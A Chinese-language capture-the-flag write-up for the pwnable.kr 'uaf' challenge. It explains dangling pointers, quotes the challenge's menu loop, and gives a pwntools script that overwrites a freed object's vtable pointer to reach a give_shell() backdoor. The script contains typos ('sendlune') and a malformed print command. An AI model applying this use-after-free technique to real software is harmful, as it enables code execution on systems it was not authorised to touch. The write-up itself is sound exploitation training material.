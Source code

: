 ### Use-After-Free

> 当所指向的对象被释放或者收回，但是对该指针没有作任何的修改，以至于该指针仍旧指向已经回收的内存地址，此情况下该指针便称迷途指针。若操作系统将这部分已经释放的内存重新分配给另外一个进程，而原来的程序重新引用现在的迷途指针，则将产生无法预料的后果

具体过程如下图

![img](https://upload-images.jianshu.io/upload_images/4238783-8fe291bbf89d374c..jpg?imageMogr2/auto-orient/strip|imageView2/2/w/720/format/webp)

### 分析源码

```cpp
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}
```

根据uaf的原理，我们只需要先free 然后再利用after修改Dangling pointer指向的内存，然后再use一下就行，这里我们通过修改虚表指针，来利用源码中的后门give_shell()

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='uaf',password='guest',port=2222)

#shell.download_file("./uaf.cpp")
#shell.download_file("./uaf")

v_ptr=0x00401570

payload=v_ptr-0x8 #修改虚表指针

sh=shell.run('sh')
sh.sendline('python -c "print" '+p64(payload)+'> /tmp/exp.txt')
sh.sendline("./uaf 24 /tmp/exp.txt")#Man 对象分配的堆空间是24个字节
sh.sendline("3")
sh.sendline("2")#因为先free m再free w，所以为了再次拿到m所指向的空间，我们需要分配两次，第一次得到w所指向的空间，第二次才再次得到m所指向的空间
sh.sendline("2")
sh.sendlune("1")
sh.interactive()
```
